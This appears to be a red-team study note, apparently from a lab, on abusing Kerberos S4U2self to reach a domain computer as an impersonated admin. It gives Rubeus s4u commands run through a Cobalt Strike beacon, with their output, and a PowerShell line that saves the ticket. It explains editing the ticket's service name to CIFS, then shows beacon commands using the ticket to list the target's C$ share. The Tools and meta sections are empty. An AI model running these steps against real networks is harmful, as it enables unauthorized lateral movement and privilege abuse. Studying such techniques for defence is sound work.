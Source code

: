 # S4U2self Abuse
Gain access to a domain computer if we have its RC4, AES256 or TGT.

S4U = Service for User  
Extensions:
* S4U2self = Service for User to Self  
Allows a service to obtain a TGS to itself on behalf of a user
* S4U2proxy = Service for User to Proxy
Allows the service to obtain a TGS on behalf of a user to a second service

Gaining TGT for a computer wo local admin:
* [[Kerberos/Printer Bug]] and a machine with [[unconstrained delegation]]
* [[NTLM relaying]]
* [[Misconfigured Certificate Templates]]

Problem:  
A TGT for WKSTN2 imported into a sacrificial session cannot access C$.

Solution:  
Abuse S4U2self to obtain a TGS to itself, as a user we know **is** a local admin like a domain admin.

## Obtain a TGS to itself
```beacon
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /user:WKSTN2$ /msdsspn:cifs/wkstn2.edu.evil.corp /impersonateuser:patrick /ticket:doERz [...snip...] M= /nowrap

[*] Action: S4U
[*] Building S4U2self request for: 'WKSTN2$@edu.evil.corp'
[*] Using domain controller: dc-2.edu.evil.corp (10.10.17.71)
[*] Sending S4U2self request to 10.10.17.71:88
[+] S4U2self success!
[*] Got a TGS for 'patrick' to 'WKSTN2$@edu.evil.corp'
[*] base64(ticket.kirbi):

 doERAz [...snip...] Mtq=

[*] Impersonating user 'patrick' to target SPN 'cifs/wkstn2.edu.evil.corp'
[*] Building S4U2proxy request for service: 'cifs/wkstn2.edu.evil.corp'
[*] Using domain controller: dc-2.edu.evil.corp (10.10.17.71)
[*] Sending S4U2proxy request to domain controller 10.10.17.71:88

[X] KRB-ERROR (13) : KDC_ERR_BADOPTION
```
  
The S4U2proxy step will fail, which is fine.  Write the S4U2self TGS to a file.
```powershell
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\wkstn2-s4u.kirbi", [System.Convert]::FromBase64String("doERAz [...snip...] Mtq="))
```

Check TGT via [[Rubeus#Check stored TGT]].

The `ServiceName` of WKSTN2$ is not valid for our use - we want it to be for CIFS. This can be easily changed, since the service name is not in the encrypted part of the ticket and is not "checked".

To modify the ticket, open it with the [[ASN Editor]].

To use the ticket, simply pass it into your session.
````beacon
beacon> getuid
[*] You are EDU\john

beacon> make_token EDU\patrick FakePass
[+] Impersonated EDU\john

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\wkstn2-s4u.kirbi

beacon> ls \\wkstn2.edu.evil.corp\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 dir     05/19/2022 14:35:19   $Recycle.Bin
 dir     05/10/2022 03:23:44   Boot


 
## Tools
########
########


```meta
ttp: T1000
requirements:
results: 
description: 
```